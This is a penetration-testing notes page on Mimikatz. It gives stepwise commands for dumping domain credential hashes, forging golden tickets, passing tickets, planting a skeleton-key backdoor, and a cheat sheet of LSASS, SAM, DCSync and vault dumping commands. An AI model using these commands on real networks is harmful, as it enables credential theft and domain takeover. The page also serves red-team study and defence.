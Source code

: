 # MimiKatz

_Used for dumping user credentials inside of a active directory network_

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

**Summary**

* [Dumping Hashes](broken-reference/)
* [Golden tickets attack](broken-reference/)
* [Silver Ticket](broken-reference/)
* [Pass the ticket](broken-reference/)
* [Kerberos backdoors](broken-reference/)

## Dumping hashes

`cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`lsadump::lsa /patch` Dump those hashes!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Crack those hashes w/ hashcat

`hashcat -m 1000 <hash> rockyou.txt`

## Golden Tickets Attack

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`cd downloads && mimikatz.exe`

`privilege::debug` ensure this outputs \[privilege "20" ok]

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

<figure><img src="../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

### Create golden ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Access other machines with golden ticket

`misc::cmd` - This will open a new command prompt with elevated privileges to all machines

Access other Machines! - You will now have another command prompt with access to all other machines on the network

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

## Silver Ticket

If a password of a service account is stolen, it can be used to impersonate a user

## Pass the Ticket

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

`cd Downloads` - navigate to the directory mimikatz is in

`mimikatz.exe` - run mimikatz

`privilege::debug` - Ensure this outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Take the admin one

Now that we have the ticket, we can perform a pass the ticket attack `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Kerberos Backdoors

### Skeleton Key

The skeleton key works by abusing the AS-REQ encrypted timestamps, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

`cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

`privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing Skeleton Key**

`misc::skeleton`

**Accessing the forest** Example : `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

## Commands - CheatSheet

```bash
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
